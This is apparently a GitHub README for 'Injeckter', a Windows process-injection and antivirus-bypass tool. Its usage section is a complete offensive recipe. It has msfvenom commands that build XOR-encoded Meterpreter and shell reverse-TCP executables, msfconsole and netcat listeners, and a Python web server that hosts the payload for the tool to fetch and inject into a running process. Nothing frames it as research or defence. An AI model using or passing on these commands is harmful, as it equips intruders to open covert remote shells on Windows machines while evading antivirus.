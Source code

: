 <!-- PROJECT SHIELDS -->
[![Build Status][build-shield]]()
[![Contributors][contributors-shield]]()
[![MIT License][license-shield]][license-url]


<!-- PROJECT LOGO -->
<br />
<p align="center">
  <a href="https://github.com/kenfinger/Injeckter">
    <img src="logo.png" alt="Logo" width="80" height="80">
  </a>

  <h3 align="center">Injeckter</h3>

  <p align="center">
    A Process Injector and AV Bypass program for Windows
    <br />
    <br />
    ·
    <a href="https://github.com/kenfinger/Injeckter/issues">Report Bug</a>
    ·
    <a href="https://github.com/kenfinger/Injeckter/issues">Request Feature</a>
  </p>
</p>



<!-- ABOUT THE PROJECT -->
## About The Project

[![Product Name Screen Shot][product-screenshot]]

A Process Injector and AV Bypass program for Windows.


<!-- USAGE EXAMPLES -->
## Usage

EXAMPLE METERPRETER REVERSE SHELL:

Generate Payload:
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP_ADDRESS> LPORT=<PORT> -f exe -e x64/xor_dynamic -b '\x00' -o <FILENAME>.exe

Setup Listener:
msfconsole -x "use multi/handler; set payload windows/x64/meterpreter_reverse_tcp; set LHOST <IP_ADDRESS>; set LPORT <PORT>; set ExitOnSession false; exploit -j"

EXAMPLE NETCAT REVERSE SHELL:

Generate Payload:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP_ADDRESS> LPORT=<PORT> -f exe -e x64/xor_dynamic -b '\x00' -o <FILENAME>.exe

Setup Listener:
nc -nvlp <PORT>

FOR ALL PAYLOADS:

python3 -m http.server <PORT>
  
Enter payload URL in Injeckter text box, select or enter process, and click "Run".  



<!-- CONTRIBUTING -->
## Contributing

Contributions are what make the open source community such an amazing place to be learn, inspire, and create. Any contributions you make are **greatly appreciated**.

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/AmazingFeature`)
3. Commit your Changes (`git commit -m 'Add some AmazingFeature`)
4. Push to the Branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request



<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE` for more information.



<!-- CONTACT -->
## Contact

Kerry Enfinger - kerry.enfinger@proton.me

Project Link: [https://github.com/kenfinger/Injeckter](https://github.com/kenfinger/Injeckter)


<!-- MARKDOWN LINKS & IMAGES -->
[build-shield]: https://img.shields.io/badge/build-passing-brightgreen.svg?style=flat-square
[contributors-shield]: https://img.shields.io/badge/contributors-1-orange.svg?style=flat-square
[license-shield]: https://img.shields.io/badge/license-MIT-blue.svg?style=flat-square
[license-url]: https://choosealicense.com/licenses/mit
[product-screenshot]: https://raw.githubusercontent.com/kenfinger/Injeckter/main/screenshot.png
